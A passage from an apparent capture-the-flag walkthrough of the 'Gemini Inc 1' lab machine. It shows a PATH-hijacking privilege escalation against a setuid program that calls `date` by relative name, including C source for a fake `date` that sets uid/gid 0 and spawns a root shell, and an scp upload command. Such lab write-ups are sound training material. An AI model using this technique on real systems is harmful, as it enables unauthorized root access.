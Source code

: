 ![0.pxqngjycg8](/assets/images/posts/gemini-inc-1-walkthrough/0.pxqngjycg8.png)

It's evident the output of `listinfo` is the result of running the commands highlighted above.

Now, notice that `date` has no full path? If we change the search path `$PATH` and upload a malicious `date`, one that spawns a shell, then running `listinfo` escalates our privileges to `root`.

The following C code `date.c` allows us to `setuid` and `setgid` as `root`, and spawn a shell.

<div class="filename"><span>date.c</span></div>
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

First, we use `scp` to upload the malicious `date.c` to `gemini1`'s home directory from our machine.

```
# scp -i /root/keys/gemini1 date.c gemini1@192.168.10.130:/home/gemini1
```

Next, we compile it.
